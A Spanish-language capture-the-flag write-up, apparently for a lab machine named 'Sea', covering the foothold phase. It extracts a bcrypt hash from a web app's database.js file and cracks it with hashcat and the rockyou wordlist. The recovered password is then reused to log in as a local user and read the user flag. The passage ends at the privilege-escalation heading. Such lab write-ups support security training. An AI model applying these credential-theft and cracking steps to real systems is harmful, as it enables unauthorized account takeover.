 En el host comprometido
```bash
stty rows X columns Y
```


### FootHold

Enumeramos el sistema y vemos que existen 2 usuarios en el directorio /home, pero no podemos leer la primera flag en el directorio del usuario amay:

```bash
www-data@sea:/home/amay$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
www-data@sea:/home/amay$ 
```


Encontramos un archivo llamado database.js en /var/www/sea/data que contiene un hash.
```
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q
```

Nota: Aquí es importante revisar que se están usando caracteres para escapar la /, por lo que esto hay que tenerlo en cuenta ya que el hash tal como está no podemos intentar crackearlo, debemos eliminar previamente los caracteres "\"

```bash
mousepad hash_bcrypt
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q
```


```bash
hashcat -m 3200 hash_bcrypt /usr/share/wordlists/rockyou.txt
```

![image](https://github.com/user-attachments/assets/d1a60d50-3e08-4a25-9380-9c9ab396825c)


```
mychemicalromance
```


Ahora verificamos si está llevando a cabo la mala praxis de reutilización de contraseñas para alguno de los usuarios que hemos enumerado anteriormente (amay o geo):

Logramos autenticarnos como amay para obtener la primera flag:

![image](https://github.com/user-attachments/assets/1e7224af-6a24-4dc2-becf-82e30ab4c823)


```
amay@sea:~$ cat user.txt
cat user.txt
1dd****************70d5668490f2
amay@sea:~$ 
```
### 👑 Escalada de privilegios
